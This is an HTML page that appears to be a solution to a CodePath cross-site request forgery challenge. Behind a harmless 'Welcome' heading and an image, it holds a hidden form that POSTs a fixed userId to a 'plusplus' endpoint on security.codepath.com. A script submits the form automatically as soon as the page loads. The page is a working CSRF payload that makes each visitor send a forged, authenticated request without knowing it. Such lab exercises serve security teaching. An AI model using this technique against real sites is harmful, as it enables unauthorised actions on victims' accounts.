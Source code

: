 <!DOCTYPE html>
<html>
<body>

<h2>Welcome</h2>
<p>HTML images are defined with the img tag:</p>

<img src="https://ichef.bbci.co.uk/news/976/cpsprodpb/12A9B/production/_111434467_gettyimages-1143489763.jpg" alt="https://ichef.bbci.co.uk/news/976/cpsprodpb/12A9B/production/_111434467_gettyimages-1143489763.jpg" width="104" height="142">

<form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
 <input type="hidden" name="userId" value="66a7b8a62f86bddfabb48752aadcb93c845e76f2" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>

</body>
</html>
